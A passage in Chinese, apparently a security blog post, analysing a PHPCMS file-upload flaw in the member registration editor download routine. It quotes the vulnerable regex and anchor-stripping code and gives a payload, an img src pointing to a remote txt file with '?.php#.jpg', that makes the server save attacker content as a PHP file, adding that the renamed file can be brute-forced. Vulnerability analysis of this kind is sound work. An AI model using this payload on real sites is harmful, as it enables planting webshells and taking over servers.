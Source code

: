 可能上面描述的不太直观，我们再次梳理一下获取`datetime`函数的流程：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x75thV2Qbvwb0uKTuYDJC9s6bXDC4yibUMe8zCgG8AR41O3hwMqdKUblg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x78qQRuP3Zfm7NUh6w3scOkFhKFM5OfWkpq3SBMficVxlsFDOleibcl1hw/640?wx_fmt=png)

接下来我们分析 poc

> 注意：再一次使用 poc 的时候，我们需要保证`username`值和`email`是唯一的

通过上面的分析，直接下断点到关键处

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7lrnzLMjuQffSG6iam2MmzrkRGytLMoW4vdS4OceO0sRDzGrCia1dWHwg/640?wx_fmt=png)

如上图，这里获取的是`editor`函数，而在这个函数中，有个`download`方法 (下图，文件在`caches/caches_model/caches_data/member_input.class.php`)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7lFwWq8q4ktdmwA8jzbNyjAOXVcd3eFm0tKAzcjHWWXwFfONv5icLtJw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7dYJfI9LJAU3q1ADdHY2o3fLmicPdicC373Liah1bp4IMZBWEun2QNoyicA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7jabUayD2dMjesFxGYOoWD4mkfcwlBZTJ2I0EjGfr0XTGu1q8wmtibzA/640?wx_fmt=png)

上面关键代码如下：

```
$ext = 'gif|jpg|jpeg|bmp|png';
...
$string = new_stripslashes($value);
if(!preg_match_all("/(href|src)=([\"|']?)([^ \"'>]+\.($ext))\\2/i",$string, $matches)) return $value;
```

这个正则匹配不难理解，需要满足`href/src=url. (gif|jpg|jpeg|bmp|png)`，这就是为什么我们写`info[content]=<img src=http://www.tao.com/a.txt?.php#.jpg`（符合这个格式，而且加`.jpg`的原因），接着进入`fillurl`方法

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7DsexstL0fZDMC3DqZ6F06Em1DoUtpL1GeGfNlZKzmmYwarwJZOcSNQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x70ODLmKmf9Py6oN0XSwWpicBiamW5YBQk48WeicmaIyOnrlebFwzSO8hWQ/640?wx_fmt=png)

在上图的`fillurl`方法中, 通过下面代码去掉了锚点.

```
$pos = strpos($surl,'#');
if($pos>0) $surl = substr($surl,0,$pos);
```

`strpos`定位`#`, 然后使用`substr`处理`http://www.tao.com/t.txt?.php#.jpg`, 处理完之后`$surl = http://www.tao.com/t.txt?.php`。

继续执行，可以发现返回的 url 去掉了`#`后面的内容

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7aFEfHrpPDawEianyLs4sLJYQZU1ppEn9JxrkePHkofz2UpPODsAo7yQ/640?wx_fmt=png)

下面 166 行处获取了上面返回 url 的后缀，及`php`, 通过`getname`方法进行重命名，可以发现的是，`getname`方法返回的文件名也只是时间 + 随机的三位数。如果不返回上传文件的 url 地址，也可以通过爆破获取。
